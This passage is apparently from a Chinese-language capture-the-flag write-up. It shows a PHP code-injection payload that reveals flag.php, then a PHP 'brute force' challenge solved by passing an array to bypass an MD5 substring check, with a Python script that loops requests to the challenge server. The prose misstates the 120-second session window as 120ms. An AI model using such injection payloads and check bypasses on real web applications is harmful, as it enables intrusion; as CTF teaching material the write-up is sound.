 另一种 payload 则类似注入：

```
?hello=);show_source(‘flag.php’);//
```

## 爆破 - 3

```php
<?php
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

首先如果 `cookie` 中不设置 `nums` 会给 `whoami` 设置默认值 `ea`，且 `session` 只能维持 120ms，所以应该需要用脚本跑。

接下来，如果 `whoami` 和传入的 `value` 相同，且 `value` 的 MD5 值子串为 0，那么 `nums` 就加 1，`whoami` 更新为两个新的随机字母。后一个条件可以很容易地用数组绕过。

我们尝试传入 `value=ea`，果然显示了 `whoami` 的下一个值。脚本：

```py
import requests

url = 'http://4451e735c9e046bcb09a4404756ca952c586da682cfe47b9.changame.ichunqiu.com/?value[]=ea'

ss = requests.session()
r = ss.get(url)

for i in range(10):
  r = ss.get(url[:-2] + r.text[0:2])
  print(r.text[:50])
```
